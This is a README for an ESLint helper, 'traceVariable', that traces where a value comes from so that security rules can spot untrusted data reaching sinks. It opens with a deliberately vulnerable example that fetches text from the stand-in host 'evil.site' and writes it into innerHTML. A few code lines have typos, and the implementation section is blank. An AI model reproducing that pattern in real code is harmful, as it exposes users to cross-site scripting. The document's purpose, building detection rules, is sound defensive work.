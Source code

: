 # Tracing algorithm

When writing ESLint rules (especially those that needs to ensure that specific
information does not flow to specific nodes) it often becomes necessary to be
able to trace the definition of an expression back to its source.

This is where this utility comes into play. Consider the following code snippet
that introduces a cross-site scripting vulnerability:

```ts
let aValue = "I am totally safe";

if (Math.random() > 0.5) {
  aValue = "Still safe!";
} else if (Math.randome() > 0.8) {
  aValue = await (await fetch("evil.site")).text();
}

document.body.innerHTML = aValue;
```

When simply observing the value that `innerHTML` is assigned to it is not
immediately obvious that the code may introduce a cross-site scripting attack.
Of course a rule could simply flag it as potentially vulnerable without
determining the source of the value, but that may result in a bunch of false
positives.

Ideally we would like to easily determine that the assigned value could take the
form of either `I am totally safe`, `Still safe` or `fetch()`. Only then would
we be able to see that the value could potentially take the form of uncontrolled
input through the fetch request.

This is exactly what the `traceVariable` utility aims to help with. In particular,
if we run this function on the value `aValue` from the snippet above, then the
output below may be printed to the console (if configured):

```bash
root --> aValue (Variable/1) --> "I am totally safe" (Literal/2/constant/reassign)

root --> aValue (Variable/1) --> "Still safe!" (Literal/2/constant/reassign)

root --> aValue (Variable/1) --> fetch (/7/reassign) --> Global(fetch)
```

## Usage

The variable tracer can be used as seen below:

```ts
traceVariable(
  {
    node,
    context, // eslint rule-context
  },
  {
    onNodeVisited: (node: TraceNode) => {
      // In case you're not interested in following the trace that the current
      // variable you can return "stopFollowingVariable: true" in order to
      // preserve performance.
      // However, if you wish to stop the trace altogehter you can return
      // "halt: true".
      return { stopFollowingVariable: false; halt: true };
    },
    onFinished: () => {
      // ...
    }
  }
);
```

Where the callback `onNodeVisited` is called every time the tracer encountes a
new [Trace Node](#trace-nodes). In other words the callback is triggered every
time we encounter a new definition of the value that we are tracing, if we reach
a source or if we cannot trace any further.

However, often it is necessary to know the context of the whole `Trace` that the
function is following, and not just the current node that we are visiting. In
this case the callbacks can be decorated with the `withTrace` function that
introduces traces into the context. A `Trace` is known as the path we followed
from the node that we trace back to a given source, including all intermediate
definitions.

```ts
let targetNode: TSESTree.Node | undefined;

traceVariable(
  {
    node,
    context,
  },
  withTrace({
    onNodeVisited: (currentTrace: [RootNode, ...TraceNode[]], node: TraceNode) => {
      if (isNodeTerminalNode(node) && isIdentifier(node.astNode)) {
        targetNode = node.astNode;

        return { halt: true };
      }
    },
    onTraceFinished: (trace: [RootNode, ...TraceNode[]]) => {
      // may, for example, output "root --> aValue (Variable/1) --> fetch (/7/reassign) --> Global(fetch)"
      printTrace(trace);

      // onTraceFinished may also return "stopFollowingVariable" and "halt"
      return { halt: true };
    },
    onFinished: () => {
      // ...
    }
  })
);
```

Do note that the tracing executes efficiently and **synchronously**. This means
that the callbacks that you have defined may set the value of variables defined
before the call to `traceVariable` as seen in the code snippet above.

## Trace Nodes

The nodes returned in the tracer callbacks are *not* regular ESLint ESTree nodes.
Instead they are a special node known as a `Trace Node`.

Trace nodes exists as a variaty of different types as specified below.

### Variable Node

Variable Nodes are generated every time we can trace the definition of a value
to another variable.

This Node will always be the "body" of a trace from the target value to the source.

### Terminal Node

Terminal Nodes can be considered the end of a trace, and they can take several
different forms, specifying different data based on the type of the terminal.

In particular the following Terminal Nodes exist:

* ConstantTerminalNode
* ImportTerminalNode
* GlobalTerminalNode
* UnresolvedTerminalNode
* NodeTerminalNode

### Root Node

The root node exists will always be the start of a `Trace`. It does not contain
any particular information itself, but is simply a specification that it is the
start of a Trace.

## Support

The algorithm is still a work in progress and thus not perfect. The current state
of known issues can be tracked by observing the unit tests provided for the tracer.

We also believe it may be relevant to re-think the API of the function to shift
away from being callback based since it may contribute to introduce
[Callback Hell](http://callbackhell.com/) in rule implementations.

However, with that being said, then the tracer supports a significant subset of
the JavaScript/TypeScript language inculding the following:

* Arrays *(including rest and spread operations)*
* Objects *(including rest and spread operations)*
* Expressions *(all)*
* Functions *(including parameter to argument tracing)*
* Import/Export *(with limited support for dynamic import and require() statements)*
* Statements *(such as ForOfLoops)*
* Globals *(e.g. Object/Promise/fetch etc.)*
* Limited understanding of vanilla JavaScript constructs *(e.g. `[].concat([])` means that we should trace both arrays)*
* Third party packages *(e.g. React, specifying relationships between `[getter, setter] = useState()` etc.)*

We are currently aware of the follwing limitations:

* Shortcomings in some of the existing handlers
* Mutability *(we do not detect mutations of traced nodes)*
* Exhaustive understanding of vanilla JavaScript constructs *(such as Set/Map etc.)*
* Lack of integration with more third party packages

## Implementation details

High level overview

### Visitors

### Handlers

### Overrides
